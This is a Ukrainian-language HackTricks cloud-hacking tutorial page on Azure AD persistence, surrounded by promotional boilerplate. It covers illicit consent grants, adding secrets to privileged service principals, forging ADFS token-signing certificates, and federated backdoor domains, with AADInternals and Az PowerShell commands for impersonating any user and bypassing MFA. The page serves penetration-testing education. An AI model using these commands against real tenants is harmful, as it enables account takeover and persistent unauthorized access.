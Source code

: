 # Az - Наполегливість

<details>

<summary><strong>Вивчайте хакінг AWS від нуля до героя з</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Інші способи підтримки HackTricks:

* Якщо ви хочете побачити вашу **компанію рекламовану в HackTricks** або **завантажити HackTricks у форматі PDF**, перевірте [**ПЛАНИ ПІДПИСКИ**](https://github.com/sponsors/carlospolop)!
* Отримайте [**офіційний PEASS & HackTricks мерч**](https://peass.creator-spring.com)
* Відкрийте для себе [**Сім'ю PEASS**](https://opensea.io/collection/the-peass-family), нашу колекцію ексклюзивних [**NFT**](https://opensea.io/collection/the-peass-family)
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи telegram**](https://t.me/peass) або **слідкуйте** за нами на **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Поділіться своїми хакерськими трюками, надсилайте PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) **і** [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **репозиторіїв на GitHub**.

</details>

### Незаконне надання згоди

За замовчуванням будь-який користувач може зареєструвати додаток в Azure AD. Таким чином, ви можете зареєструвати додаток (лише для цільового орендаря), який потребує високих дозволів з адміністративною згодою (затвердити його, якщо ви є адміністратором) - наприклад, відправка листів від імені користувача, управління ролями тощо. Це дозволить нам **здійснювати атаки фішингу**, які були б дуже **плідними** у разі успіху.

Крім того, ви також можете прийняти цей додаток з вашим користувачем як спосіб збереження доступу до нього.

### Додатки та Службові облікові записи

З привілеями Адміністратора додатків, GA або власної ролі з дозволами microsoft.directory/applications/credentials/update, ми можемо додати облікові дані (секрет або сертифікат) до існуючого додатка.

Можливо **націлити додаток з високими дозволами** або **додати новий додаток** з високими дозволами.

Цікавою роллю для додавання до додатка буде **Роль адміністратора привілейованої аутентифікації**, оскільки вона дозволяє **сбросити пароль** Глобальних адміністраторів.

Ця техніка також дозволяє **обійти MFA**.

{% code overflow="wrap" %}
```powershell
$passwd = ConvertTo-SecureString "J~Q~QMt_qe4uDzg53MDD_jrj_Q3P.changed" -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential("311bf843-cc8b-459c-be24-6ed908458623", $passwd)
Connect-AzAccount -ServicePrincipal -Credential $credentials -Tenant e12984235-1035-452e-bd32-ab4d72639a
```
{% endcode %}

* Для аутентифікації на основі сертифікатів

{% code overflow="wrap" %}
```powershell
Connect-AzAccount -ServicePrincipal -Tenant <TenantId> -CertificateThumbprint <Thumbprint> -ApplicationId <ApplicationId>
```
{% endcode %}

### Федерація - Сертифікат підпису токена

З **привілеями DA** на локальному AD можливо створити та імпортувати **нові сертифікати підпису токена** та **розшифрування токена**, які мають дуже довгий термін дії. Це дозволить нам **увійти як будь-який користувач**, чий ImuutableID нам відомий.

**Виконайте** наведену нижче команду як **DA на серверах ADFS**, щоб створити нові сертифікати (за замовчуванням пароль 'AADInternals'), додайте їх до ADFS, вимкніть автоматичне оновлення та перезапустіть службу:
```powershell
New-AADIntADFSSelfSignedCertificates
```
Потім оновіть інформацію про сертифікати з Azure AD:
```powershell
Update-AADIntADFSFederationSettings -Domain cyberranges.io
```
### Федерація - Довірений домен

З правами GA на орендаря, можливо **додати новий домен** (його необхідно підтвердити), налаштувати його тип аутентифікації на Федеративний та налаштувати домен для **довіри до певного сертифіката** (any.sts у команді нижче) та випускача:
```powershell
# Using AADInternals
ConvertTo-AADIntBackdoor -DomainName cyberranges.io

# Get ImmutableID of the user that we want to impersonate. Using Msol module
Get-MsolUser | select userPrincipalName,ImmutableID

# Access any cloud app as the user
Open-AADIntOffice365Portal -ImmutableID qIMPTm2Q3kimHgg4KQyveA== -Issuer "http://any.sts/B231A11F" -UseBuiltInCertificate -ByPassMFA$true
```
## Посилання

* [https://aadinternalsbackdoor.azurewebsites.net/](https://aadinternalsbackdoor.azurewebsites.net/)

<details>

<summary><strong>Вивчайте хакінг AWS від нуля до героя з</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Інші способи підтримати HackTricks:

* Якщо ви хочете побачити вашу **компанію рекламовану на HackTricks** або **завантажити HackTricks у форматі PDF**, перевірте [**ПЛАНИ ПІДПИСКИ**](https://github.com/sponsors/carlospolop)!
* Отримайте [**офіційний PEASS & HackTricks мерч**](https://peass.creator-spring.com)
* Відкрийте для себе [**Сім'ю PEASS**](https://opensea.io/collection/the-peass-family), нашу колекцію ексклюзивних [**NFT**](https://opensea.io/collection/the-peass-family)
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи Telegram**](https://t.me/peass) або **слідкуйте** за нами на **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Поділіться своїми хакерськими трюками, надсилайте PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв GitHub.

</details>
